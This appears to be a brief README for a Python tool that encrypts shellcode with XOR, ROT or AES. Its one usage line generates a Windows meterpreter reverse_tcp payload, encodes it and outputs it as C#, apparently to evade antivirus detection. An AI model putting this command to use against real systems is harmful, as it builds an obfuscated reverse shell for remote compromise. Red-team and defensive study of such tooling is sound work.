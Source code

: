 # py-shellcodeEnc
tool to encrypt(xor,rot,aes) shellcode

USAGE:
```
python senc.py -p windows/meterpreter/reverse_tcp -lhost eth0 -lport 443 -e rot -k 254 -f csharp
```


TODO - print cssharp decrypt function.
